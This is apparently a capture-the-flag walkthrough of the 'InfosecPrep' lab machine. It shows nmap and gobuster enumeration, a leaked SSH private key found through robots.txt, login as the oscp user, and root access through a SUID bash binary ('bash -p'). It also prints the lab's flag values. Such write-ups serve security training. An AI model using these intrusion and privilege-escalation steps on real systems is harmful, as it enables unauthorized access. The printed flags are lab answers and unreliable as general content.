

# InfosecPrep

First, we conduct an Nmap scan:

```
┌──(kali㉿kali)-[~]
└─$ nmap -sS -sV -Pn -p- 192.168.216.89
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org) ) at 2026-07-04 05:38 EDT
Nmap scan report for 192.168.216.89
Host is up (0.044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx  MySQL X protocol listener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 26.27 seconds
```

Now we can head to the webpage. After reading the main page, we get a clue that the username for this box is "oscp":



Now we can conduct directory brute-forcing using the `gobuster` tool:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u [http://192.168.216.89](http://192.168.216.89) -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     [http://192.168.216.89](http://192.168.216.89)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/javascript           (Status: 301) [Size: 321] [--> [http://192.168.216.89/javascript/](http://192.168.216.89/javascript/)]
/robots.txt           (Status: 200) [Size: 36]
/server-status        (Status: 403) [Size: 279]
/wp-admin             (Status: 301) [Size: 319] [--> [http://192.168.216.89/wp-admin/](http://192.168.216.89/wp-admin/)]
/wp-content           (Status: 301) [Size: 321] [--> [http://192.168.216.89/wp-content/](http://192.168.216.89/wp-content/)]
/wp-includes          (Status: 301) [Size: 322] [--> [http://192.168.216.89/wp-includes/](http://192.168.216.89/wp-includes/)]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

When we check the `robots.txt` file, we can see the following content:

```
User-Agent: *
Disallow: /secret.txt
```

After checking for `/secret.txt`, we find a base64-encoded string. When we decode it using a tool like CyberChef, we obtain an OpenSSH private key. Now we can try to log in as the `oscp` user with this private key:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh oscp@192.168.216.89 -i ssh-priv-key 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

  System information as of Sat 04 Jul 2026 09:56:07 AM UTC

  System load:  0.0                Processes:             210
  Usage of /:   25.3% of 19.56GB   Users logged in:       0
  Memory usage: 58%                IPv4 address for eth0: 192.168.216.89
  Swap usage:   0%


0 updates can be installed immediately.
0 of these updates are security updates.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to [https://changelogs.ubuntu.com/meta-release-lts](https://changelogs.ubuntu.com/meta-release-lts). Check your Internet connection or proxy settings


Last login: Sat Jul  4 09:47:00 2026 from 192.168.45.154
-bash-5.0$ whoami
oscp
-bash-5.0$ hostname
oscp
-bash-5.0$ 
```

We succeeded, so now we can read the user flag:

```
-bash-5.0$ ls
ip  local.txt
-bash-5.0$ cat local.txt 
834de7f8d69b4a43bcc6668224a1d0a6
```

Now we can proceed to escalating our privileges. First, we can look for SUID binaries:

```
-bash-5.0$ find / -perm -u=s -type f 2>/dev/null
/snap/snapd/8790/usr/lib/snapd/snap-confine
/snap/snapd/8140/usr/lib/snapd/snap-confine
/snap/core18/1885/bin/mount
/snap/core18/1885/bin/ping
/snap/core18/1885/bin/su
/snap/core18/1885/bin/umount
/snap/core18/1885/usr/bin/chfn
/snap/core18/1885/usr/bin/chsh
/snap/core18/1885/usr/bin/gpasswd
/snap/core18/1885/usr/bin/newgrp
/snap/core18/1885/usr/bin/passwd
/snap/core18/1885/usr/bin/sudo
/snap/core18/1885/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1885/usr/lib/openssh/ssh-keysign
/snap/core18/1754/bin/mount
/snap/core18/1754/bin/ping
/snap/core18/1754/bin/su
/snap/core18/1754/bin/umount
/snap/core18/1754/usr/bin/chfn
/snap/core18/1754/usr/bin/chsh
/snap/core18/1754/usr/bin/gpasswd
/snap/core18/1754/usr/bin/newgrp
/snap/core18/1754/usr/bin/passwd
/snap/core18/1754/usr/bin/sudo
/snap/core18/1754/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/1754/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/fusermount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/bash
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
```

We can see `/usr/bin/bash` listed among the binaries with the SUID bit set. We can easily exploit this to escalate our privileges, using the instructions found at https://gtfobins.org/gtfobins/bash/:

```
-bash-5.0$ bash -p
bash-5.0# whoami
root
```

Now we can read the root flag:

```
bash-5.0# cd /root
bash-5.0# ls
fix-wordpress  flag.txt  proof.txt  snap
bash-5.0# cat flag.txt 
Your flag is in another file...
bash-5.0# cat proof.txt 
d16d6d801e840afebf838959fa7a1230
bash-5.0# 
```